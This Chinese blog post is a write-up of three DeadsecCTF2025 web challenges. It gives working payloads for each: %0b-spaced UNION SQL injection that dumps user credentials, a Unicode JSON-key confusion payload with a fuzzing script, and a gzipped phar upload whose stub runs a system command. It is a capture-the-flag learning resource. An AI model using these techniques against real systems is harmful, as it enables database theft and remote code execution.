+++
title = "DeadsecCTF2025"
slug = "deadsecctf2025"
description = "来看看C语言代码吗"
date = "2025-07-28T10:13:44"
lastmod = "2025-07-28T10:13:44"
image = ""
license = ""
categories = ["赛题"]
tags = ["mysql", "phar"]
+++

我只能说这个比赛太牛了，短短的代码，大大的姿势！

## Arcadia（5 solves）

黑盒题，正常注册网站之后观察文章，发现写的很多是布尔什么什么的，这里进行普通的注入查询发现会返回如下界面





到这里就可以确认是在这里注入了，但是有点小问题，测试了一下，很多绕过空格的方式都没了，至少我已知的是没了，最后是用`%0b`，垂直制表符成功的，并且还有个小细节，

```sql
1' and union 

1' and false union
```

一个是条件语句，要前后都为真，而后面这个是只需要看后面的查询语句，前面恒定为假。

而看着好像是等效的哈，但是现在后端如果是

```sql
select * from $id =$_GET['id'];
```

像这种情况，就必须要`and false`了。



```sql
1'%0Band%0Bfalse%0Bunion%0Bselect%0B1,2,3%0Band'1'='1
```

接下来正常查询即可

```sql
1'%0Band%0Bfalse%0Bunion%0Bselect%0B1,database(),3%0Band'1'='1
arcadia

1'%0Band%0Bfalse%0Bunion%0Bselect%0B1,group_concat(table_name),3%0Bfrom%0Binformation_schema.tables%0Bwhere%0Btable_schema=database()%0Band'1'='1
articles,users

1'%0Band%0Bfalse%0Bunion%0Bselect%0B1,group_concat(column_name),3%0Bfrom%0Binformation_schema.columns%0Bwhere%0Btable_name='articles'%0Band'1'='1
id,title,body,author_id,created_at

1'%0Band%0Bfalse%0Bunion%0Bselect%0B1,group_concat(column_name),3%0Bfrom%0Binformation_schema.columns%0Bwhere%0Btable_name='users'%0Band'1'='1
id,username,password

1'%0Band%0Bfalse%0Bunion%0Bselect%0B1,group_concat(username),3%0Bfrom%0Busers%0Bwhere%0B'1'='1
admin,baozongwi,John,Uzun

1'%0Band%0Bfalse%0Bunion%0Bselect%0B1,group_concat(password),3%0Bfrom%0Busers%0Bwhere%0B'1'='1
.XA/9G9k87rR,d2Z20#7r=oaW,DEAD{wh0_n33ds_$p4c3s_FTW!!_fc18fc69b5fb3e63},Baozongwi123!
```

拿到flag，还是挺不错的一道题

## go-fish（17 solves）

```go
package main

import (
	"encoding/json"
	"fmt"
	"io/ioutil"
	"log"
	"net/http"
	"os"
)

type RequestBody struct {
	Req string `json:"request"`
	Username string `json:"username"`
	Password string `json:"password"`
	Token string `json:"token"`
}

func goHandler(w http.ResponseWriter, r *http.Request) {
	log.Printf("Received request from %s: %s %s", r.RemoteAddr, r.Method, r.URL.Path)

	if r.Method != http.MethodPost {
		http.Error(w, "Method Not Allowed", http.StatusMethodNotAllowed)
		log.Printf("Rejected: Method %s not allowed", r.Method)
		return
	}

	body, err := ioutil.ReadAll(r.Body)
	if err != nil {
		http.Error(w, "Error reading request body", http.StatusInternalServerError)
		log.Printf("Error reading body: %v", err)
		return
	}
	defer r.Body.Close()

	var reqBody RequestBody
	err = json.Unmarshal(body, &reqBody)
	if err != nil {
		fmt.Fprint(w, "Error!")
		return
	}

	if reqBody.Req == "givemeflagpls" {
		flagContent, err := os.ReadFile("flag.txt")
		if err != nil {
			http.Error(w, "Error reading flag file, please contact admins", http.StatusInternalServerError)
			return
		}
		fmt.Fprint(w, string(flagContent))
	} else if reqBody.Req == "login" {
		if reqBody.Username == "admin" && reqBody.Password != reqBody.Password {
			fmt.Fprint(w, reqBody.Token)
		} else {
			fmt.Fprint(w, "Wrong username and/or password")
		}
	} else {
		http.Error(w, "Unknown action", http.StatusInternalServerError)
	}
}

func main() {
	http.HandleFunc("/go", goHandler)
	port := ":8080"
	log.Printf("Golang server starting on port %s", port)
	log.Fatal(http.ListenAndServe(port, nil))
}


```

就两个路由非常轻巧，在login路由有一个看似非常安全的地方



我不等于我？！

查到go里面的NaN可以做到类似的事情，只要类型正确，但是这里是字符串类型，不太对感觉

```go
package main

import (
    "fmt"
    "math"
)

type RequestBody struct {
    Username string      `json:"username"`
    Password interface{} `json:"password"`
}

type StringRequestBody struct {
    Username string `json:"username"`
    Password string `json:"password"`
}

func main() {
    reqBody1 := RequestBody{Password: math.NaN()}
    fmt.Printf("interface{} NaN: %t\n", reqBody1.Password != reqBody1.Password)
    
    reqBody2 := StringRequestBody{Password: "test"}
    fmt.Printf("string type: %t\n", reqBody2.Password != reqBody2.Password)
    
    nan := math.NaN()
    fmt.Printf("Direct NaN != NaN: %t\n", nan != nan)
}
```

测试了一下，发现确实不对

```
PS F:\Download\go-fish\go-fish> go run "f:\Download\go-fish\go-fish\1.go"
interface{} NaN: true
string type: false
Direct NaN != NaN: true
```

刚好这里是字符串，我嘞个大纲啊，所以现在只能想办法走私了，不过貌似这里也不叫走私，算是一个解析错误

```python
from flask import Flask, request, jsonify, render_template
import requests
import secrets
import logging

app = Flask(__name__)

logging.basicConfig(level=logging.INFO)
logger = logging.getLogger(__name__)

GO_SERVER_URL = "http://go_server:8080/go"
ADMIN_TOKEN = secrets.token_hex(32)


def proxy(data: dict):
    try:
        go_response = requests.post(GO_SERVER_URL, json=data, headers={'Content-Type': 'application/json'})
        return jsonify({"response" : go_response.text})
    except requests.exceptions.ConnectionError as e:
        return jsonify({"error": "Could not connect to backend server"}), 503
    except Exception as e:
        return jsonify({"error": "Internal backend error"}), 500

@app.route("/")
def index():
    logger.info(f"Incoming request: {request.method} {request.url}")
    return render_template("index.html")

@app.route("/login", methods=['POST'])
def login():
    if not request.is_json:
        return jsonify({"error": "Content-Type must be application/json"}), 400
    try:
        data = request.get_json()
    except Exception as e:
        return jsonify({"error": "Invalid JSON in request body"}), 400
    
    data = {k.lower():v for k,v in data.items()}
    if not ("username" in data and "password" in data):
        return jsonify({"error": "Missing username and/or password"})
    
    data |= {"request" : "login", "token" : ADMIN_TOKEN}

    return proxy(data)

@app.route("/admin", methods=['POST'])
def admin():
    if not request.is_json:
        return jsonify({"error": "Content-Type must be application/json"}), 400
    try:
        data = request.get_json()
    except Exception as e:
        return jsonify({"error": "Invalid JSON in request body"}), 400
    
    if secrets.compare_digest(data.get("token", ""), ADMIN_TOKEN):
        data = {k.lower():v for k,v in data.items()}
        data |= {"request" : "givemeflagpls"}
        return proxy(data)
    else:
        return jsonify({"error": "Wrong admin token"})

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=5000)
```

他使用python作为一层代理，对内部的go进行请求转发，每次都会有`|=`，而对于这里，我们就要想办法动动手脚，首先我们知道json有个覆盖值的解析问题

```python
import json

json_string = '{"username":"admin","password":"123456","password":"admin123"}'

print(json_string)

parsed = json.loads(json_string)
print(parsed)
```

https://github.com/golang/go/issues/53267 由于`ioutil.ReadAll`已经被弃用，所以这go版本肯定不会太高。

我们可以注意到这个issue主要提及的就是Unicode字符的安全问题，但是对于这里而言，标签又都是正常的

我们注意到

```python
# 转换已知字段
data = {k.lower():v for k,v in data.items()}  
# 覆盖已知字段
data |= {"request": "login", "token": ADMIN_TOKEN} 
```

现在进行fuzz

```python
import socket
import ssl
import json

SERVER = "c8ee4f7956920b0f372cbefc.deadsec.quest"
PORT = 443

def connect(content = r'''{"username": "admin", "password": "admin"}'''):
    print(f"Send content to server: {content}")
    
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    
    ssl_context = ssl.create_default_context()
    ssl_context.check_hostname = False
    ssl_context.verify_mode = ssl.CERT_NONE
    s = ssl_context.wrap_socket(s, server_hostname=SERVER)
    
    print("Connecting to server...")
    s.connect((SERVER, PORT))
    
    content_len = len(content)
    s.send((
      f"POST /login HTTP/1.1\r\n"
      f"Host: {SERVER}\r\n"
      f"Content-Type: application/json\r\n"
      f"Content-Length: {content_len}\r\n"
      f"\r\n"
      f"{content}"
    ).encode("latin1"))
    
    data = s.recv(4096) + s.recv(4096)
    s.close()
    return data.decode("utf-8")

def test():
    print("test")
    for order in range(len("request")):
        for i in range(0x0100, 0x0200):
            data = {
                "username": "admin",
                "password": "123",
                "request": "test",
            }
            key = "request"
            key = key[:order] + chr(i) + key[order+1:]
            data[key] = "givemeflagpls"
            res = connect(json.dumps(data))
            print(f"Response:{res}")
            if 'DEAD{' in res:
                print(key)
                print(res)

if __name__ == "__main__":
    test()
```

最后的poc如下

```json
{
       "username":"admin",
       "password":"123",
       "request":"test",
       "reque\u017Ft":"givemeflagpls"
}
```

## baby-web（13 solves）

一道php的题目，但是感觉非常的无懈可击

```php
<?php
session_start();
error_reporting(0);

if (!isset($_SESSION['dir'])) {
    $_SESSION['dir'] = random_bytes(4);
}

if (!isset($_GET['url'])) {
    die("Nope :<");
}

$include_url = basename($_GET['url']);
$SANDBOX = getcwd() . "/uploads/" . md5("supersafesalt!!!!@#$" . $_SESSION['dir']);

if (!file_exists($SANDBOX)) {
    mkdir($SANDBOX);
}

if (!file_exists($SANDBOX . '/' . $include_url)) {
    die("Nope :<");
}

if (!preg_match("/\.(zip|bz2|gz|xz|7z)/i", $include_url)) {
    die("Nope :<");
}

@include($SANDBOX . '/' . $include_url);
?>
```

首先是index.php，里面两个函数直接把include包含的内容写死了，所以绝无可能用伪协议去加载文件，同时发现有个`file_exists`，

```php
<?php
session_start();
error_reporting(0);

$allowed_extensions = ['zip', 'bz2', 'gz', 'xz', '7z'];
$allowed_mime_types = [
    'application/zip',
    'application/x-bzip2',
    'application/gzip',
    'application/x-gzip',
    'application/x-xz',
    'application/x-7z-compressed',
];


function filter($tempfile)
{
    $data = file_get_contents($tempfile);
    if (
        stripos($data, "__HALT_COMPILER();") !== false || stripos($data, "PK") !== false ||
        stripos($data, "<?") !== false || stripos(strtolower($data), "<?php") !== false
    ) {
        return true;
    }
    return false;
}

if (!isset($_SESSION['dir'])) {
    $_SESSION['dir'] = random_bytes(4);
}

$SANDBOX = getcwd() . "/uploads/" . md5("supersafesalt!!!!@#$" . $_SESSION['dir']);
if (!file_exists($SANDBOX)) {
    mkdir($SANDBOX);
}

if ($_SERVER["REQUEST_METHOD"] == 'POST') {
    if (is_uploaded_file($_FILES['file']['tmp_name'])) {
        if (filter($_FILES['file']['tmp_name']) || !isset($_FILES['file']['name'])) {
            die("Nope :<");
        }

        // mimetype check
        $finfo = finfo_open(FILEINFO_MIME_TYPE);
        $mime_type = finfo_file($finfo, $_FILES['file']['tmp_name']);
        finfo_close($finfo);

        if (!in_array($mime_type, $allowed_mime_types)) {
            die('Nope :<');
        }

        // ext check
        $ext = strtolower(pathinfo(basename($_FILES['file']['name']), PATHINFO_EXTENSION));

        if (!in_array($ext, $allowed_extensions)) {
            die('Nope :<');
        }

        if (move_uploaded_file($_FILES['file']['tmp_name'], "$SANDBOX/" . basename($_FILES['file']['name']))) {
            echo "File upload success!";
        }
    }
}
?>

<form enctype='multipart/form-data' action='upload.php' method='post'>
    <input type='file' name='file'>
    <input type="submit" value="upload"></p>
</form>
```

`upload.php`限制了文件，经过测试发现只要是正常的安全文件都能通过，同时我本地测试将一个条件删除`stripos($data, "<?") !== false`，利用短标签成功getshell，此刻我就在想能否绕过这个函数，查看官方文档发现是进行ASCII比较，于是利用编码反复尝试，但是都失败了。

在文件上传常用姿势里面，Race Condition确实是个很好的选择，但是此题不通，因为在目标移动之前就已经die了，所以得想另外的办法。当我进入本地的docker容器时，我发现个问题，就是里面有zlib和phar拓展，不过代码中对stub头进行了限制，不过，我上传文件的时候发现一个问题，他的检测长度其实并不长。

知道了这么多信息，但是我还是像个无能的丈夫一样，没能打通，今早上看到WP

```php
<?php
$phar = new Phar('exploit.phar');
$phar->startBuffering();

$stub = <<<'STUB'
<?php
    system('/readflag');
    __HALT_COMPILER();
?>
STUB;

$phar->setStub($stub);
$phar->addFromString('test.txt', 'test');
$phar->stopBuffering();

?>
```

```
gzip -c exploit.phar > exp.phar.gz
```

为什么会藏在stub头里面呢，我们前面知道他检测长度确实不长，但是™的也太离谱了吧。



使用`file_get_contents`来打开这个压缩文件之后，全是乱码，自然而然的这里就检测不到了，所以和检测长度其实也没有关系。到这里就成功上传了，没有任何问题。



但是并不是说这里就是会触发phar反序列化，类都没有哪里来的phar反序列化呢，而是最后的include包含了文件中的恶意内容（本地我改成whoami了）



但是为什么呢，这就得去看函数源码了(本人太菜了)，但是我师父帮我看了看



他到了这里就要跟进到`phar.c`了，到了`phar_compile_file`



然后跟进到了`phar_open_from_fp`，主要看这个函数

```c
static zend_result phar_open_from_fp(php_stream* fp, char *fname, size_t fname_len, char *alias, size_t alias_len, uint32_t options, phar_archive_data** pphar, char **error) /* {{{ */
{
	static const char token[] = "__HALT_COMPILER();";
	static const char zip_magic[] = "PK\x03\x04";
	static const char gz_magic[] = "\x1f\x8b\x08";
	static const char bz_magic[] = "BZh";
	char *pos, test = '\0';
	int recursion_count = 3; // arbitrary limit to avoid too deep or even infinite recursion
	const int window_size = 1024;
	char buffer[1024 + sizeof(token)]; /* a 1024 byte window + the size of the halt_compiler token (moving window) */
	const zend_long readsize = sizeof(buffer) - sizeof(token);
	const zend_long tokenlen = sizeof(token) - 1;
	zend_long halt_offset;
	size_t got;
	uint32_t compression = PHAR_FILE_COMPRESSED_NONE;

	if (error) {
		*error = NULL;
	}

	if (-1 == php_stream_rewind(fp)) {
		MAPPHAR_ALLOC_FAIL("cannot rewind phar \"%s\"")
	}

	buffer[sizeof(buffer)-1] = '\0';
	memset(buffer, 32, sizeof(token));
	halt_offset = 0;

	/* Maybe it's better to compile the file instead of just searching,  */
	/* but we only want the offset. So we want a .re scanner to find it. */
	while(!php_stream_eof(fp)) {
		if ((got = php_stream_read(fp, buffer+tokenlen, readsize)) < (size_t) tokenlen) {
			MAPPHAR_ALLOC_FAIL("internal corruption of phar \"%s\" (truncated entry)")
		}

		if (!test && recursion_count) {
			test = '\1';
			pos = buffer+tokenlen;
			if (!memcmp(pos, gz_magic, 3)) {
				char err = 0;
				php_stream_filter *filter;
				php_stream *temp;
				/* to properly decompress, we have to tell zlib to look for a zlib or gzip header */
				zval filterparams;

				if (!PHAR_G(has_zlib)) {
					MAPPHAR_ALLOC_FAIL("unable to decompress gzipped phar archive \"%s\" to temporary file, enable zlib extension in php.ini")
				}
				array_init(&filterparams);
/* this is defined in zlib's zconf.h */
#ifndef MAX_WBITS
#define MAX_WBITS 15
#endif
				add_assoc_long_ex(&filterparams, "window", sizeof("window") - 1, MAX_WBITS + 32);

				/* entire file is gzip-compressed, uncompress to temporary file */
				if (!(temp = php_stream_fopen_tmpfile())) {
					MAPPHAR_ALLOC_FAIL("unable to create temporary file for decompression of gzipped phar archive \"%s\"")
				}

				php_stream_rewind(fp);
				filter = php_stream_filter_create("zlib.inflate", &filterparams, php_stream_is_persistent(fp));

				if (!filter) {
					err = 1;
					add_assoc_long_ex(&filterparams, "window", sizeof("window") - 1, MAX_WBITS);
					filter = php_stream_filter_create("zlib.inflate", &filterparams, php_stream_is_persistent(fp));
					zend_array_destroy(Z_ARR(filterparams));

					if (!filter) {
						php_stream_close(temp);
						MAPPHAR_ALLOC_FAIL("unable to decompress gzipped phar archive \"%s\", ext/zlib is buggy in PHP versions older than 5.2.6")
					}
				} else {
					zend_array_destroy(Z_ARR(filterparams));
				}

				php_stream_filter_append(&temp->writefilters, filter);

				if (SUCCESS != php_stream_copy_to_stream_ex(fp, temp, PHP_STREAM_COPY_ALL, NULL)) {
					php_stream_filter_remove(filter, 1);
					if (err) {
						php_stream_close(temp);
						MAPPHAR_ALLOC_FAIL("unable to decompress gzipped phar archive \"%s\", ext/zlib is buggy in PHP versions older than 5.2.6")
					}
					php_stream_close(temp);
					MAPPHAR_ALLOC_FAIL("unable to decompress gzipped phar archive \"%s\" to temporary file")
				}

				php_stream_filter_flush(filter, 1);
				php_stream_filter_remove(filter, 1);
				php_stream_close(fp);
				fp = temp;
				php_stream_rewind(fp);
				compression = PHAR_FILE_COMPRESSED_GZ;

				/* now, start over */
				test = '\0';
				if (!--recursion_count) {
					MAPPHAR_ALLOC_FAIL("unable to decompress gzipped phar archive \"%s\"");
					break;
				}
				continue;
			} else if (!memcmp(pos, bz_magic, 3)) {
				php_stream_filter *filter;
				php_stream *temp;

				if (!PHAR_G(has_bz2)) {
					MAPPHAR_ALLOC_FAIL("unable to decompress bzipped phar archive \"%s\" to temporary file, enable bz2 extension in php.ini")
				}

				/* entire file is bzip-compressed, uncompress to temporary file */
				if (!(temp = php_stream_fopen_tmpfile())) {
					MAPPHAR_ALLOC_FAIL("unable to create temporary file for decompression of bzipped phar archive \"%s\"")
				}

				php_stream_rewind(fp);
				filter = php_stream_filter_create("bzip2.decompress", NULL, php_stream_is_persistent(fp));

				if (!filter) {
					php_stream_close(temp);
					MAPPHAR_ALLOC_FAIL("unable to decompress bzipped phar archive \"%s\", filter creation failed")
				}

				php_stream_filter_append(&temp->writefilters, filter);

				if (SUCCESS != php_stream_copy_to_stream_ex(fp, temp, PHP_STREAM_COPY_ALL, NULL)) {
					php_stream_filter_remove(filter, 1);
					php_stream_close(temp);
					MAPPHAR_ALLOC_FAIL("unable to decompress bzipped phar archive \"%s\" to temporary file")
				}

				php_stream_filter_flush(filter, 1);
				php_stream_filter_remove(filter, 1);
				php_stream_close(fp);
				fp = temp;
				php_stream_rewind(fp);
				compression = PHAR_FILE_COMPRESSED_BZ2;

				/* now, start over */
				test = '\0';
				if (!--recursion_count) {
					MAPPHAR_ALLOC_FAIL("unable to decompress bzipped phar archive \"%s\"");
					break;
				}
				continue;
			}

			if (!memcmp(pos, zip_magic, 4)) {
				php_stream_seek(fp, 0, SEEK_END);
				return phar_parse_zipfile(fp, fname, fname_len, alias, alias_len, pphar, error);
			}

			if (got >= 512) {
				if (phar_is_tar(pos, fname)) {
					php_stream_rewind(fp);
					return phar_parse_tarfile(fp, fname, fname_len, alias, alias_len, pphar, compression, error);
				}
			}
		}

		if (got > 0 && (pos = phar_strnstr(buffer, got + sizeof(token), token, sizeof(token)-1)) != NULL) {
			halt_offset += (pos - buffer); /* no -tokenlen+tokenlen here */
			return phar_parse_pharfile(fp, fname, fname_len, alias, alias_len, halt_offset, pphar, compression, error);
		}

		halt_offset += got;
		memmove(buffer, buffer + window_size, tokenlen); /* move the memory buffer by the size of the window */
	}

	MAPPHAR_ALLOC_FAIL("internal corruption of phar \"%s\" (__HALT_COMPILER(); not found)")
}
```

他会在这里对zip、bz2、gzip、tar的文件进行自动解压然后解析phar文件。

